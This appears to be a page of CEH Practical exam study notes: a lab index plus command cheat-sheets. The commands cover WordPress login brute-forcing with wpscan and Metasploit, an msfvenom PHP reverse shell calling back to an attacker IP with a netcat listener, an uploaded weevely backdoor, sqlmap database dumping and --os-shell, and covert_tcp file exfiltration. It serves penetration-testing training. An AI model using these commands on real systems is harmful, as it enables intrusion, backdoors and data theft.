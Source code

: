 # 🧪 Labs

## Labs Walkthrough 🔭

* [2 - Footprinting & Reconnaissance](2-footprinting-and-recon.md)
* [3 - Scanning Networks](https://app.gitbook.com/o/s2H3MdEB0Qp2IbE58Gxw/s/iS3hadq7jVFgSa8k5wRA/\~/changes/23/pratical-ethical-hacker-notes/labs/3-scanning-networks)
* [4 - Enumeration](https://app.gitbook.com/o/s2H3MdEB0Qp2IbE58Gxw/s/iS3hadq7jVFgSa8k5wRA/\~/changes/23/pratical-ethical-hacker-notes/labs/4-enumeration)
* [5 - Vulnerability Analysis](5-vulnerability-analysis.md)
* [6 - System Hacking](https://app.gitbook.com/o/s2H3MdEB0Qp2IbE58Gxw/s/iS3hadq7jVFgSa8k5wRA/\~/changes/23/pratical-ethical-hacker-notes/labs/6-system-hacking)
* [8 - Sniffing](https://app.gitbook.com/o/s2H3MdEB0Qp2IbE58Gxw/s/iS3hadq7jVFgSa8k5wRA/\~/changes/23/pratical-ethical-hacker-notes/labs/8-sniffing)
* [10 - DoS](https://app.gitbook.com/o/s2H3MdEB0Qp2IbE58Gxw/s/iS3hadq7jVFgSa8k5wRA/\~/changes/23/pratical-ethical-hacker-notes/labs/10-dos)
* [13 - Hacking Web Servers](https://app.gitbook.com/o/s2H3MdEB0Qp2IbE58Gxw/s/iS3hadq7jVFgSa8k5wRA/\~/changes/23/pratical-ethical-hacker-notes/labs/13-hacking-web-servers)
* [14 - Hacking Web Applications](https://app.gitbook.com/o/s2H3MdEB0Qp2IbE58Gxw/s/iS3hadq7jVFgSa8k5wRA/\~/changes/23/pratical-ethical-hacker-notes/labs/14-hacking-web-apps)
* [15 - SQL Injection](https://app.gitbook.com/o/s2H3MdEB0Qp2IbE58Gxw/s/iS3hadq7jVFgSa8k5wRA/\~/changes/23/pratical-ethical-hacker-notes/labs/15-sql-injection)
* [17 - Hacking Mobile Platform](https://app.gitbook.com/o/s2H3MdEB0Qp2IbE58Gxw/s/iS3hadq7jVFgSa8k5wRA/\~/changes/23/pratical-ethical-hacker-notes/labs/17-hacking-mobile)
* [20 - Cryptography](https://app.gitbook.com/o/s2H3MdEB0Qp2IbE58Gxw/s/iS3hadq7jVFgSa8k5wRA/\~/changes/23/pratical-ethical-hacker-notes/labs/20-cryptography)



## [Website Hacking/Password Cracking](https://github.com/infovault-Ytube/CEH-Practical-Notes#website-hackingpassword-cracking) <a href="#user-content-website-hackingpassword-cracking" id="user-content-website-hackingpassword-cracking"></a>

<details>

<summary>Website Cracking</summary>

* SkipFish : Active Recon for Websites

```
skipfish -o 202 http://192.168.1.202/wordpress
```

* Wordpress Site Login BruteForce [Step-By-Step](https://www.hackingarticles.in/multiple-ways-to-crack-wordpress-login/)

```
# Wordpress site only Users Enumeration
wpscan --url http://example.com/ceh --enumerate u 

# Direct crack if we have user/password details

wpscan --url http://192.168.1.100/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt

# Using Metaspoilt
msfdb init && msfconsole
msf > use auxiliary/scanner/http/wordpress_login_enum
msf auxiliary(wordpress_login_enum) > set rhosts 192.168.1.100
msf auxiliary(wordpress_login_enum) > set targeturi /wordpress
msf auxiliary(wordpress_login_enum) > set user_file user.txt
msf auxiliary(wordpress_login_enum) > set pass_file pass.txt
msf auxiliary(wordpress_login_enum) > exploit
  
  
```

#### [File Upload Vulnerability](https://github.com/infovault-Ytube/CEH-Practical-Notes#file-upload-vulnerability) <a href="#user-content-file-upload-vulnerability" id="user-content-file-upload-vulnerability"></a>

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-port> -f raw > file.php
  
msfdb init && msfconsole
use multi/handler
set payload php/meterepreter/reverse_tcp
set LHOST=attacker-ip
set LPORT= attcker-port
run

# If incase, metaspolit not working use NetCat and shell code below
```

[Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) : Use the code, change IP & Port and use it with NetCat listener

```
nc -vnl -p 1234
```

[Weevely](https://www.kali.org/tools/weevely/) : Generate PHP Reverse shell

```
  
weevely generate password123 /home/error.php

# Upload the above error.php to website and use the below cmd to get reverse shell

weevely http://domain.com/error.php password123  
```

#### [SQL Injection](https://github.com/infovault-Ytube/CEH-Practical-Notes#sql-injection) <a href="#user-content-sql-injection" id="user-content-sql-injection"></a>

Login bypass with [' or 1=1 --](https://github.com/mrsuman2002/SQL-Injection-Authentication-Bypass-Cheat-Sheet/blob/master/SQL%20Injection%20Cheat%20Sheet.txt) [N-Stalker](https://www.nstalker.com/) : Select OWASP Policy => Scan Website for Vulnerabilites

SQLMAP

```
#List databases, add cookie values
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” --dbs 
  OR
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low”   --data="id=1&Submit=Submit" --dbs  


# List Tables, add databse name
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name --tables  
  
# List Columns of that table
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --columns
  
#Dump all values of the table
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --dump
  

sqlmap -u "http:domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” --os-shell
 
```

* Some links [DVWA:Blind SQL with SQLMap](https://medium.com/hacker-toolbelt/dvwa-1-9-viii-blind-sql-injection-with-sqlmap-ee8d59fbdea7), [DVWA - High Level with SQLMap](https://www.youtube.com/watch?v=IR1JsaSQLMc\&ab\_channel=Archidote)

</details>

<details>

<summary>Password Cracking</summary>



</details>

<details>

<summary>Cipering / Encrypting/ Hashes</summary>



</details>





<details>

<summary>Covert</summary>

Covert\_tcp [source code](https://github.com/infovault-Ytube/CEH-Practical-Notes/blob/main/covert\_tcp.c) Live Demo [Covert TCP Live Demo-Youtube](https://www.youtube.com/watch?v=bDcz4qIpiQ4)

```
# Compile the Code  
cc -o covert_tcp covert_tcp.c
  
# Reciever Machine(192.168.29.53)  
sudo ./covert_tcp -dest 192.168.29.53 -source 192.168.29.123 -source_port 9999 -dest_port 8888 -server -file recieve.txt  
 
# Sender Machine(192.168.29.123) 
# Create A Message file that need to be transferred Eg:secret.txt
sudo ./covert_tcp -dest 192.168.29.53 -source 192.168.29.123 -source_port 8888 -dest_port 9999 -file secret.txt
```

[Wireshark Capture](https://github.com/infovault-Ytube/CEH-Practical-Notes/blob/main/Covert\_TCP-Capture.pcapng) Hello This 123 -

[![](https://github.com/infovault-Ytube/CEH-Practical-Notes/raw/main/covertCapture.jpg)](https://github.com/infovault-Ytube/CEH-Practical-Notes/blob/main/covertCapture.jpg)

</details>

